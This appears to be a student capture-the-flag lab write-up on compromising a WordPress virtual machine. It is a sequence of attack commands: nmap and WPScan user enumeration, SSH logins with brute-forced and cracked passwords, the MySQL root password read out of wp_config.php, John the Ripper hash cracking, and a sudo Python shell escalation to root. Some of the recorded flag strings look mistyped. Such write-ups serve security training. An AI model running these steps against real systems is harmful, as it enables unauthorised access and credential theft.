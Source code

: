 # Red Team: Summary of Operations
 
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
 
### Exposed Services
 
 
Nmap scan results for each machine reveal the below services and OS details:
 
Command: $ nmap -sV 192.168.1.110
  
  
![redteam1](https://user-images.githubusercontent.com/91024338/143156404-1f4162a4-e0e5-4385-884b-4daf231ff115.JPG)

 
This scan identifies the services below as potential points of entry:
 
- Target 1
 
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn 
  - Port 445/TCP Open netbios-ssn
 
The following vulnerabilities were identified on each target:
 
- Target 1
  - Weak user password
  - User enumeration (WordPress site)
  - Unsalted user password hash (WordPress site)
  - Misconfiguration of user privileges and user escalation
 
### Exploitation
 
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - Flag1: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
	-Used Brute Force to guess Michael’s password
  - Command:
      - wpscan --url http://192.168.1.110/wordpress/ --enumerate u

![redteam2](https://user-images.githubusercontent.com/91024338/143157109-f730c529-0fa3-4934-8e58-291f6b2721f3.JPG)
![redteam3](https://user-images.githubusercontent.com/91024338/143157142-49c0c5f1-e7e1-4bc6-9784-072e6d685ee6.JPG)
![redteam4](https://user-images.githubusercontent.com/91024338/143157159-d5dc97d7-2bb9-4106-9649-ce2bd54a666b.JPG)
![redteam5](https://user-images.githubusercontent.com/91024338/143157180-25422c20-6bb0-4bdb-8500-d297f4d7c77b.JPG)




	-Password:michael
      - SSH in michael: ssh michael@192.168.1.110
      - cd var/www/html
      - ls -l
      - nano service.html (Flag1 located) 

![redteam6](https://user-images.githubusercontent.com/91024338/143157402-7ddab105-f4dc-48ea-9d14-77bf279cd6b9.JPG)
![redteam7](https://user-images.githubusercontent.com/91024338/143157412-0322b2b3-9699-4138-88ee-9061cc2c84ea.JPG)
![redteam8](https://user-images.githubusercontent.com/91024338/143157425-b9a86fe8-902b-416e-9068-45047c6628fe.JPG)


 
  - Flag2: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
	- Used password from previous Brute Force
	-Password: michael
      - ssh michael@192.168.1.110
      - cd var/www
      - ls 
      - cat flag2.txt
            
![redteam9](https://user-images.githubusercontent.com/91024338/143157461-5f80f5d5-3ed2-4d53-9237-b3a63c09179b.JPG)
      
      
- Flag3:afc01ab56b50591e7dccf93122770cd2
**Exploit Used**
Same exploits used to gain Flag 1 and 2:
Accessing MySQL Database
-Commands
	-cd /var/www/html/wordpress
	-cat wp_config.php
	-mysql -u root -p’R@v3nSecurity’ 
	-show databases;
	-use wordpress;
	-show tables;
	-select * from wp_posts;

![redteam10](https://user-images.githubusercontent.com/91024338/143157686-13ad1e0a-309f-433e-b0fe-e992eedce83a.JPG)
![redteam11](https://user-images.githubusercontent.com/91024338/143157712-ba16df30-7895-4d8c-a329-1f761bba46b2.JPG)
![redteam12](https://user-images.githubusercontent.com/91024338/143157739-a0724fed-e838-45b7-ac73-ededead52c1e.JPG)
![redteam13](https://user-images.githubusercontent.com/91024338/143157753-940e3539-dd53-415b-9027-df1ea24d8cd2.JPG)




 
 
Flag4:715dea6c055b9fe3337544932f2941ce
	-**Exploit used**
- Used MySQL database to gain access to user credentials.
- Used John the Ripper to crack the password hash.
- Used Python to gain root privileges.
- User credentials are stored in the ‘wp_users table’ in the wordpress database.
- I copied/saved the usernames and password hashes to my Kali machine in a file named wp_hashes.txt.
-Commands:
	-mysql -u root -p’R@v3nSecurity’ 
	-show databases;
	-use wordpress;
	-show tables;
	-select * from wp_users;

![redteam14](https://user-images.githubusercontent.com/91024338/143157919-218bf1ae-63f2-4b22-80a1-ac2fc98b7226.JPG)

 
-Commands:
	- cd /usr/share/wordlist
	- john --wordlist=rockyou.txt wp_hashes.txt
 
![redteam15](https://user-images.githubusercontent.com/91024338/143158223-3eea04ea-f1bb-4539-ac76-f2fd9583a468.JPG)
![redteam16](https://user-images.githubusercontent.com/91024338/143158252-026f0a7d-8737-418b-af1f-fd98361847e2.JPG)


 
-Results: 
-Steven’s password: pink84
 
- After I cracked Steven’s password I SSH as Steven, checked for root      
  privileges and escalated to root with Python.
-Commands:
	-ssh steven@192.168.1.110
	-password: pink84
	- sudo -l
	- sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
	- cd /root
	- ls
	- cat flag4.txt

![redteam17](https://user-images.githubusercontent.com/91024338/143158406-09a79c6d-99e1-4246-95fa-82b1abd1b3f1.JPG)
![redteam18](https://user-images.githubusercontent.com/91024338/143158420-fe0269f5-e475-41ad-b374-4b1e0d07e08b.JPG)
![redteam19](https://user-images.githubusercontent.com/91024338/143158438-ac7b1fac-acd6-48ea-ac5b-aa9e31184597.JPG)

 

 

